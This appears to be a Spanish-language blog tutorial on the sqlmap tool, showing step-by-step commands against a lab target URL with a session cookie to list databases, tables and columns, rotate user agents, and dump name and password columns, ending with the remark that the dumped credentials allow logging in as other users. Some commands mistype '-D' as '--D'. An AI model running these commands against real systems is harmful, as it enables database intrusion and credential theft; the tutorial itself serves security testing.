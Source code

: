 ```yaml
---
date: 2021-09-15T05:03:05.000Z
layout: post
comments: true
title: SQLMAP
subtitle: 'y algunas de sus utilidades'
description: >-
image: >-
  http://imgfz.com/i/lHWCDTL.png
optimized_image: >-
  http://imgfz.com/i/lHWCDTL.png
category: ciberseguridad
tags:
  - sql
  - linux
  - sqlmap
  - database
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


SQLMAP permite testear muchos motores de bases de datos y muchas características especificas para analizar la seguridad de estas. 

Por ejemplo si queremos ejecutarlo y ya tenemos una sesión, se ocupa lo siguiente en el caso de que no se conozca el servicio (MySQL, SQL Server, PostgreSQL, etc):
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --dbs --batch --random-agent
```
Parámetros usados

| Parámetro | Utilidad |
| :--------: | :-------: |
| -u | Indicar el url. |
| --cookie | Indicar la cookie de sesión. |
| --dbs | Lista las base de datos disponibles. |
| --batch | Selecciona las opciones por defecto(no manual). |
| --random-agent | Va cambiando por cada consulta el User-Agent. |

Ahora si conocemos el servicio, se ocupa el parámetro ```--dbms```, por ejemplo:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --dbs --batch --random-agent --dbms=mysql
```

Una vez se termina el proceso, deberíamos poder ver las base de datos y ahora para realizar las consultas se reemplaza el párametro ```--dbs``` por ```-D```, en el cual se le indica el nombre de la base de datos encontrada:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename --batch --random-agent --dbms=mysql
```
Y ahora para buscar las tablas de la base de datos se ocupa el parámetro ```--tables```:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename --tables --batch --random-agent --dbms=mysql
```

Si conseguimos obtener las tablas pues ahora de una tabla ```-T```, podemos buscar sus columnas ```--columns```:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename -T tablename --columns --batch --random-agent --dbms=mysql
```

Una vez realizado este proceso, si se encuentran columnas con posibles datos sensibles, pues se procede a obtener estos datos (dumpear), a través del parámetro ```--dump```(se selecciona la(s) columna(s) con ```-C```), por ejemplo:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename -T tablename -C name,pass --dump --batch --random-agent --dbms=mysql
```
Y así es como finalmente tendríamos los datos que queremos para por ejemplo iniciar sesión con credenciales de otros usuarios y/o administradores.
